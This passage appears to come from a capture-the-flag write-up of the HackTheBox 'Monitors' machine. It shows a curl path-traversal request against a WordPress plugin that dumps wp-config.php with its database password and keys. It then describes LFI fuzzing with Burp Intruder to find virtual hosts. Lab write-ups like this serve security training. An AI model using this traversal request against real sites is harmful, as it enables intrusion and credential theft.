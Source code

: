Internal username is marcus.

The WordPress password storage for the login passwords is fairly secure. The passwords are encrypted and stored in the WordPress
MySQL database. However, the password for the WordPress MySQL database itself is stored in the wp-config.php file in plain text.

[root:/git/htb/monitors]# curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php\?url\=../../../wp-config.php
  ..
  define( 'DB_NAME', 'wordpress' );

  /** MySQL database username */
  define( 'DB_USER', 'wpadmin' );

  /** MySQL database password */
  define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

  /**#@+
   * Authentication Unique Keys and Salts.
   *
   * Change these to different unique phrases!
   * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
   * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
   *
   * @since 2.6.0
   */
  define( 'AUTH_KEY',         'KkY%W@>T}4CKTw5{.n_j3bywoB0k^|OKX0{}5|UqZ2!VH!^uWKJ.O oROc,h pp:' );
  define( 'SECURE_AUTH_KEY',  '*MHA-~<-,*^$raDR&uxP)k(~`k/{PRT(6JliOO9XnYYbFU?Xmb#9USEjmgeHYYpm' );
  define( 'LOGGED_IN_KEY',    ')F6L,A23Tbr9yhrhbgjDHJPJe?sCsDzDow-$E?zYCZ3*f40LSCIb] E%zrW@bs3/' );
  define( 'NONCE_KEY',        'g?vl(p${jG`JvDxVw-]#oUyd+uvFRO1tAUZQG_sGg&Q7O-*tF[KIe$weE^$bB3%C' );
  define( 'AUTH_SALT',        '8>PIil3 7re_:3&@^8Zh|p^I8rwT}WpVr5|t^ih05A:]xjTA,UVXa8ny:b--/[Jk' );
  define( 'SECURE_AUTH_SALT', 'dN c^]m:4O|GyOK50hQ1tumg4<JYlD2-,r,oq7GDjq4M Ri:x]Bod5L.S&.hEGfv' );
  define( 'LOGGED_IN_SALT',   'tCWVbTcE*_T_}X3#t+:)>N+D%?vVAIw#!*&OK78M[@ YT0q):G~A:hTv`bO<,|68' );
  define( 'NONCE_SALT',       'sa>i39)9<vVyhE3auBVzl%=p23NJbl&)*.{`<*>;R2=QHqj_a.%({D4yI-sy]D8,' );

  /**#@-*/

We have database creds (wpadmin:BestAdministrator@2020!) and keys+salts used for hashing the passwords. The password is not reused
on either wp-admin nor SSH.

After unsuccessfully testing out different RFI payloads for a while I had a look in '/etc/php/7.2/apache2/php.ini' and noticed
that 'allow_url_fopen = On' but 'allow_url_include = Off' - making RFI impossible.

Download HackTrick's LFI-list, and do a Hail Marry with Burp Intruder, sort by Length and we come across:

/etc/apache2/sites-enabled/000-default.conf
  # Default virtual host settings
  # Add monitors.htb.conf
  # Add cacti-admin.monitors.htb.conf
